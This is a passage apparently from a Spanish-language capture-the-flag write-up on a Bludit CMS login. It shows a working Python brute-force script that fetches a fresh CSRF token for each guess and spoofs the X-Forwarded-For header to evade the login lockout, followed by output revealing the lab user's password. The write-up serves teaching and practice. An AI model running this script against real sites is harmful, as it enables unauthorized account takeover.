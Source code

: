 ```python

def makeRequests():

    s = requests.session()

    passwords = open("dictionary.txt", 'r')

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando proceso de Fuerza Bruta")
    time.sleep(2)

    counter = 1
    for password in passwords.readlines():
        
        password = password.strip('\n')
        
        p1.status("Probando con la paassword [%d / 349] %s" % (counter, password))

        r = s.get(main_url)

        tokenCSRF = re.findall(r'name="tokenCSRF" value="(.*?)"', r.text)[0]

        post_data = {
                "tokenCSRF": tokenCSRF,
                "username": "fergus",
                "password": password,
                "save": ''
        }

        myHeaders = {
            'X-Forwarded-For': password
        }

        r = s.post(main_url, data=post_data, headers=myHeaders)
        counter += 1

        if "Username or password incorrect" not in r.text:
            p1.success("La contraseña es %s" % password)
            sys.exit(0)

if __name__=='__main__':

    makeRequests()
```

Despues de unos instantes logramos obtener la contraseña del usuario `fergus:RolandDeschain`.

```bash
❯ python3 bludit.py
[.] Fuerza Bruta: Probando con la password the
[+] Fuerza Bruta: La contraseña es RolandDeschain
```
